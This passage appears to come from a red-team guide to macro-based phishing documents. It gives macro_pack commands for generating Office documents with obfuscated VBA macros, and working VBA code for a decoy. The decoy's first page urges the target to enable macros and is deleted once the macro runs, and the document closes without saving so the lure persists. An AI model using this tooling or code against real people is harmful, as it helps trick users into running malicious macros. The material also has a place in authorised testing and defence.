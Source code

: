 Note that `MS Office` applications must be installed for the corresponding
documents generation (`MS Word`, `MS Excel`, etc.).

```
# Generates a document incorporating the obfuscated VBA macro specified.
# The output document format will be automatically deducted by macro_pack from the given file extension.
macro_pack.exe -f "<VBA_TXT_FILE>" -o -G "<OUTPUT_FILE>"

# Opens the specified document, triggering AutoOpen / Workbook_Openuse macros. Useful for testing purposes.
macro_pack.exe --run "<FILE>"
```

###### Decoy document

The following `VBA` code snippets, from
[`MacroPhishing`](https://github.com/TheKevinWang/MacroPhishing), can be used
to increase credibility of the scenario enticing the targeted user to enable
the macro. The first page of the document, that can contain a message enticing
macro activation, will be replaced by the second page of the document, that
can be otherwise left hidden, upon activation of the macro. The second page can
match the original subject / purpose of the document. Additionally, the macro
automatically chooses not to save changes made to the document if the document
is closed without saving. This allows the document to remain in its original
state, with the first page being shown to the user and the second page hidden.

The following `VBA` code should be added to the main `VBA` auto-execute
function:

```
Option Explicit
Dim oAppClass As New oAppClass
Public Sub AutoOpen()
ActiveDocument.Sections(1).Range.Font.Hidden = False
Set page1 = Selection.GoTo(What:=1, Which:=2, Name:=1).Bookmarks("\Page").Range
page1.Delete
Set oAppClass.oApp = Word.Application
End Sub
```

A new class, called `oAppClass` should then be created and the following code
added to the class. The class can be freely renamed, as long as the
instantiation from the main `VBA` function (`Dim oAppClass As New oAppClass`)
is updated.

```
Option Explicit
Public WithEvents oApp As Word.Application
Private Sub oApp_DocumentBeforeClose(ByVal Doc As Document, Cancel As Boolean)
Cancel = True
Application.Quit SaveChanges:=wdDoNotSaveChanges
End Sub
```

###### Spoofing the parent process and command line
